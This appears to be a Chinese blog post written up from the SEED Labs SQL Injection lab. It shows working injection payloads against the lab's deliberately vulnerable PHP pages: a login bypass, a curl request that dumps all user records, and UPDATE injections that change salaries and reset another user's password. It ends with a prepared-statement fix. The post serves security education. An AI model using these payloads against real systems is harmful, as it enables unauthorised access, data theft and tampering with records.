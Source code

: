 ```yaml
---
layout: post
title:  "【SEED Labs】SQL injection <img src='https://img.shields.io/badge/-原创-019733?style=flat'>"
date:   2021-07-25 00:00:00 +0800
categories: 实验
tags: SEEDLab 安全
comments: 1
mathjax: true
---
```


本文为 [SEED Labs 2.0 - SQL Injection Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Web/Web_SQL_Injection/) 的实验记录。

# 实验原理

SQL注入攻击通过构建特殊的输入作为参数传入Web应用程序，而这些输入大都是SQL语法里的一些组合，通过执行SQL语句进而执行攻击者所要的操作，它目前是黑客对数据库进行攻击的最常用手段之一。

# Task 1: Get Familiar with SQL Statements

启动 docker

```shell
dcbuild
dcup
```

然后进入 mysql 程序

```shell
dockps
docksh **
mysql -u root -p dees
```

> After running the commands above, you need to use a SQL command to print all the profile information of the employee Alice.

```mysql
use sqllab_users;
show tables;
desc credential;
select * from credential where Name='Alice'
```

<img src="https://i.loli.net/2021/07/24/Oz14IRuBaf3ZENS.png" alt="image-20210722144514099" style="zoom:50%;" />

# Task 2: SQL Injection Attack on SELECT Statement

## Task 2.1: SQL Injection Attack from webpage

打开 [seed-server.com](http://www.seed-server.com/)

观察 unsafe home.php，看到里面有如下判断

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

我们只需要把判断 Password 的部分屏蔽即可

```
admin';#
```

<img src="https://i.loli.net/2021/07/24/AzXs2vQFEPSoLiY.png" alt="image-20210722145300064" style="zoom:50%;" />

## Task 2.2: SQL Injection Attack from command line

转换一下 url 编码即可

```shell
curl 'www.seed-server.com/unsafe_home.php?username=%27%3b%23'
```

得到

<img src="https://i.loli.net/2021/07/24/oYJ9Ep5a6I7GnsN.png" alt="image-20210722150454000" style="zoom:50%;" />

看到已经显示了所有用户信息

## Task 2.3: Append a new SQL statement

注入

```plain text
Alice'; update credential set name=A where ID=1;#
```

可以看到注入不成功

<img src="https://i.loli.net/2021/07/24/EuwMNsmyAal3YjC.png" alt="image-20210722150917741" style="zoom:67%;" />

# Task 3: SQL Injection Attack on UPDATE Statement

## Task 3.1: Modify your own salary

进入 Alice 修改个人资料的页面

观察 unsafe edit backend.php，看到有如下判断

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
        nickname=’$input_nickname’,
        email=’$input_email’,
        address=’$input_address’,
        Password=’$hashed_pwd’,
        PhoneNumber=’$input_phonenumber’
        WHERE ID=$id;";
$conn->query($sql);
```

注入

```
',salary='30000' where ID=1;#
```

<img src="https://i.loli.net/2021/07/24/gGiR6Q3UlqtF7Zk.png" alt="image-20210722153947448" style="zoom: 50%;" />

## Task 3.2: Modify other people’s alary

这个和上面的几乎一模一样，比如我们把 Boby 的薪水改成 114514

```
',salary='114514' where ID=2;#
```

<img src="https://i.loli.net/2021/07/24/pkiohbyqBA8dsE5.png" alt="image-20210722154549727" style="zoom:50%;" />

看到已经改掉了

<img src="https://i.loli.net/2021/07/24/yMn3oTgsl5bmjAQ.png" alt="image-20210722154726908" style="zoom:50%;" />

## Task 3.3: Modify other people’s password

查看代码，看到密码采用的是 sha1，我们随便找个在线转换网站转换一下就好了。

<img src="https://i.loli.net/2021/07/24/J1tbDONHnlpdCMr.png" alt="image-20210722155151501" style="zoom: 67%;" />

然后注入

```
',Password='1f82c942befda29b6ed487a51da199f78fce7f05' where ID=1;#
```

<img src="https://i.loli.net/2021/07/24/GAreWY3vmxCNyaj.png" alt="image-20210722155300581" style="zoom:50%;" />

然后现在可以用密码 `888888` 成功登录 Alice 账号。

# Task 4: Countermeasure — Prepared Statement

登录 [seed-server.com/defense](http://www.seed-server.com/defense/)

这里我们需要将参数与查询分离。修改 unsafe.php，做如下改动

```php
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
						FROM credential
						WHERE name = ? and Password = ? ");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);
$stmt->execute();
$stmt->bind_result($id, $name, $eid, $salary, $ssn);
$stmt->fetch();
```

<img src="https://i.loli.net/2021/07/24/YtBRjOc6n715wDI.png" alt="image-20210724202537000" style="zoom:50%;" />

可以看到，攻击失败了

<img src="https://i.loli.net/2021/07/24/CFiGfJ219y7SDIB.png" alt="image-20210724201943781" style="zoom:50%;" />

# 实验总结

实验属于最简单的 SQL injection。主要的收获在于最后一个 Task，以前只知道怎么注入，很少研究过怎么防御。

